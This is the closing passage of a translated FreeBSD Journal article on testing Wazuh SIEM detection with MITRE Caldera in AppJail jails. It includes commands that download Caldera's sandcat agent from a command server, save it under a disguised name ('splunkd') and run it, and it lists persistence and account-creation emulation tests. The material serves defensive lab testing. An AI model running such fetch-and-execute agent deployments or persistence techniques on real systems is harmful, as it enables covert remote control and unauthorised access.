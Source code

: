 ![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/89a8df9a-ea9f-4297-9fc9-2ee0aab53a70)

```
# appjail cmd jexec agent01 sh -c ‘curl -k -s -X POST -H “file:sandcat.go” -H
“platform:freebsd” https://11.1.0.10:8443/file/download > /root/splunkd’
# appjail cmd jexec agent01 chmod 750 /root/splunkd
# appjail cmd jexec agent01 ./splunkd -server https://11.1.0.10:8443 -group red -v

Starting sandcat in verbose mode.
[*] No tunnel protocol specified. Skipping tunnel setup.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=https://11.1.0.10:8443
upstream dest addr=https://11.1.0.10:8443
group=red
privilege=Elevated
allow local p2p receivers=false
beacon channel=HTTP
available data encoders=base64, plain-text
[+] Beacon (HTTP): ALIVE
```

在不同的终端会话中，为每个代理重复前面的命令，只更改 jail 的名称（agent01、agent02、agent03、agent04 和 agent05）。完成这些任务后，我们将在 MITRE Caldera Agents 窗口中看到可用代理的列表。

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/b79764a5-9fdd-4958-b280-bd8ebf284c46)

添加（潜在的链接按钮）并在不同的代理上运行一些模拟测试。以下四个测试将在 wazuh-manager 中生成警报：

1) Cron – 用引用的文件替换 crontab（T1053.003）
2) 使用 `root` GID 在 FreeBSD 中创建一个新用户（T1136.001）
3) 在 FreeBSD 系统上创建一个用户帐户（T1136.001）
4) 创建本地帐户（FreeBSD）（T1078.003）

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/924b5db2-9145-4dff-8f28-e240ae93e37d)

完成模拟操作后，我们在 wazuh-dashboard 控制台中验证每个测试生成的警报。

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/ca6fb0fd-64c4-4730-a532-2d54c5753dad)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/620548ed-980e-49d6-acd9-a73bd9a6f1e5)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/77e60ce8-b4f7-4477-a401-1190cc47a2a7)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/7d0c2a6d-e0d2-4c9e-9a93-d78a7199bf8c)

## 结论

Wazuh 和 MITRE Caldera 提供了可定制的工具，以适应安全信息或网络安全需求。本文展示了包含在 Wazuh SIEM 和 MITRE Caldera 中的部分功能。如果你想了解更多关于这些工具的信息，Wazuh 项目和 MITRE Caldera 项目提供了出色的文档（<https://documentation.wazuh.com/current/index.html>）和（<https://caldera.readthedocs.io/en/latest/>），以及强大的社区支持。

AppJail 在快速将本文使用的工具部署到 jail 容器中发挥了作用。。

---

ALONSO CÁRDENAS 是 FreeBSD 项目的 ports 提交者。他最近专注于提升 FreeBSD 作为信息安全有用平台的可见性。他是秘鲁的信息安全和网络安全顾问。
